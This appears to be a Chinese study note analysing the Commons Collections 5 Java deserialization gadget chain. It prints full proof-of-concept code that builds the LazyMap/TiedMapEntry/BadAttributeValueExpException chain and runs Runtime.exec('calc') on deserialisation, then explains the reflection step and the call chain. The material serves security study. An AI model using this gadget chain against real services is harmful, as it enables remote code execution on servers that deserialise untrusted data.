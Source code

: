 ```java
        ChainedTransformer chain = new ChainedTransformer(new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class }, new Object[]{"calc"})
        });

        HashMap innermap = new HashMap();
        LazyMap map = (LazyMap)LazyMap.decorate(innermap,chain);
        TiedMapEntry tiedmap = new TiedMapEntry(map,123);
        BadAttributeValueExpException poc = new BadAttributeValueExpException(1);
        Field val = Class.forName("javax.management.BadAttributeValueExpException").getDeclaredField("val");
        val.setAccessible(true);
        val.set(poc,tiedmap);

        try{
            ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("./cc5"));
            outputStream.writeObject(poc);
            outputStream.close();

            ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("./cc5"));
            inputStream.readObject();
        }catch(Exception e){
            e.printStackTrace();
        }
    }
}
```
1.为什么创建BadAttributeValueExpException实例时不直接将构造好的TiedMapEntry传进去而要通过反射来修改val的值？
![](https://img-blog.csdnimg.cn/f711a3425cc7459ea6fd6c0bcfcccb9e.png)
如果我们直接将前面构造好的TiedMapEntry传进去，在这里就会触发toString，从而导致rce。此时val的值为UNIXProcess，这是不可以被反序列化的，所以我们需要在不触发rce的前提，将val设置为构造好的TiedMapEntry

调用链：
```
BadAttributeValueExpException.readObject()
  valObj.toString() === TiedMapEntry.toString()
    TiedMapEntry.getValue()
      LazyMap.get()
         ChainedTransformer.transform()
          ConstantTransformer.transform() // 获取Runtime.class
          InvokerTransformer.transform()   // 获取Runtime.getRuntime
          InvokerTransformer.transform()   // 获取Runtime实例
          InvokerTransformer.transform()   // 调用exec方法触发rce
```

参考：[Java安全之Commons Collections5分析](https://www.cnblogs.com/nice0e3/p/13890340.html)
